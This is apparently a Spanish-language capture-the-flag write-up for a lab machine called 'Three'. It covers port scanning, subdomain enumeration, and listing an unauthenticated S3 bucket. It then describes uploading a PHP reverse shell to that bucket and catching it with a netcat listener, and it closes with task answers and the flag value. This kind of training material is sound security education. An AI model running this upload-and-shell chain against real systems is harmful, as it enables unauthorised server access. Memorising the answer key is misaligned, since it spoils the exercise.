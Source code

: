 # Three

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Cloud**: Entorno de computación basado en servidores remotos.
  * **Custom Applications**: Aplicaciones desarrolladas para necesidades específicas.
  * **AWS**: Plataforma de servicios en la nube de Amazon.
  * **Reconnaissance**: Fase de recopilación de información en pruebas de seguridad.
  * **Web Site Structure Discovery**: Técnica para identificar la estructura de un sitio web.
  * **Bucket Enumeration**: Proceso de identificar y listar buckets en almacenamiento en la nube.
  * **Arbitrary File Upload**: Vulnerabilidad que permite la carga de archivos no autorizados.
  * **Anonymous/Guest Access**: Acceso sin autenticación a recursos o servicios.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.126.143
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -p- --min-rate 5000 -sV 10.129.126.143
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2024-09-01 201005.png" alt=""><figcaption></figcaption></figure>

Hicimos algunas pruebas en el sitio web y anotamos la dirección de correo electrónico que aparece en la sección de contacto: `mail@thetoppers.htb`.

Para facilitar el proceso, añadimos la siguiente entrada al archivo `/etc/hosts` en nuestro equipo:

```
10.129.126.143  thetoppers.htb
```

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Dentro de un dominio, es posible tener varios subdominios para organizar diferentes funcionalidades web sin necesidad de configurar un servidor por cada servicio. El próximo paso es identificar subdominios válidos. Para ello, utilizaremos un ataque de diccionario con la herramienta **Gobuster**.

```bash
gobuster vhost -u http://thetoppers.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Vamos a añadir la dirección del subdominio `s3.thetoppers.htb` al archivo `/etc/hosts` utilizando un comando sencillo.

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Después de investigar en Internet, parece que el servicio se refiere a **Amazon Simple Storage Service (Amazon S3)**. En esencia, Amazon S3 es un servicio de almacenamiento en la nube que permite guardar datos en contenedores llamados **"buckets"**. Este servicio puede usarse para guardar diversos tipos de información, como copias de seguridad, archivos multimedia, páginas web estáticas, entre otros.

```
sudo apt install awscli
```

Debemos configurarlo de una forma básica por si cuela.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

```bash
aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Esto nos muestra dos elementos de interés y una carpeta llamada **"images"**. Además, disponemos de un servicio que nos permite descargar estos archivos de forma remota a nuestro entorno.

Si no hay una configuración que exija autorización para subir archivos, podemos intentar cargar una Reverse Shell. Sabemos que el servidor está ejecutando archivos con extensión PHP, por lo que ya sabemos cómo generar una. Para este propósito, suelo recurrir a la Reverse Shell en PHP disponible en **pentestmonkey**. Puedes encontrar el script [aquí](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Extraemos solo el contenido del payload y lo ajustamos para que funcione correctamente.

Luego, utilizamos el siguiente comando para subir un archivo desde nuestro sistema local al servicio remoto.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Como podemos ver, hemos logrado subir archivos sin autorización al bucket del servicio web que opera en el puerto 80. Por lo tanto, si accedemos a ese archivo mientras tenemos Netcat escuchando en el puerto especificado (443), deberíamos obtener una shell.

Primero, nos ponemos a la escucha:

```bash
nc -nlvp 443
```

Luego, accedemos a `http://thetoppers.htb/shell.php`.

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

Una vez dentro investigamos distintos directorios para ver donde se encuentra la flag. La flag se encontraba en el directorio `/var/www/flag.txt`.

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

#### Tarea 1: ¿Cuántos puertos TCP están abiertos?

**2**

_Durante un escaneo de puertos, se detectaron dos puertos TCP abiertos en el servidor._

#### Tarea 2: ¿Cuál es el dominio de la dirección de correo electrónico proporcionada en la sección "Contact" del sitio web?

**thetoppers.htb**

_En la sección de contacto de la página web, se proporciona una dirección de correo electrónico asociada al dominio `thetoppers.htb`._

#### Tarea 3:  En ausencia de un servidor DNS, ¿qué archivo de Linux podemos usar para resolver nombres de host a direcciones IP para poder acceder a los sitios web que apuntan a esos nombres de host?

**/etc/hosts**

_El archivo `/etc/hosts` en Linux se utiliza para mapear nombres de host a direcciones IP de manera manual._

#### Tarea 4: ¿Qué subdominio se descubre durante una enumeración adicional?

**s3.thetoppers.htb**

_A través de la enumeración, que es el proceso de identificar y explorar todos los subdominios y servicios relacionados con un dominio principal, se descubrió el subdominio `s3.thetoppers.htb`._

#### Tarea 5: ¿Qué servicio se está ejecutando en el subdominio descubierto?

**Amazon S3**

_Amazon S3 (Simple Storage Service) es un servicio de almacenamiento en la nube que permite almacenar y recuperar cualquier cantidad de datos en cualquier momento._

#### Tarea 6: ¿Qué utilidad de línea de comandos se puede usar para interactuar con el servicio que se ejecuta en el subdominio descubierto?

**awscli**

_`awscli` es una herramienta de línea de comandos que permite a los usuarios interactuar con los servicios de Amazon Web Services (AWS), incluidos S3, EC2, y más. Con `awscli`, los usuarios pueden realizar acciones como listar archivos, subir y descargar datos, y configurar permisos, todo desde la terminal._

#### Tarea 7: ¿Qué comando se utiliza para configurar la instalación de AWS CLI?

**aws configure**

_El comando `aws configure` se utiliza para configurar las credenciales necesarias para interactuar con los servicios de AWS a través de `awscli`._

#### Tarea 8: ¿Cuál es el comando utilizado por la utilidad mencionada para listar todos los buckets S3?

**aws s3 ls**

_El comando `aws s3 ls` se usa para listar todos los buckets S3 asociados con las credenciales configuradas en `awscli`._

#### Tarea 9: Este servidor está configurado para ejecutar archivos escritos en qué lenguaje de scripting web?

**php**

_El servidor web está configurado para ejecutar archivos en PHP, un lenguaje de scripting ampliamente utilizado para el desarrollo de aplicaciones web dinámicas._

#### Tarea 10: Enviar Flag

a980d99281a28d638ac68b9bf9453c2b

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

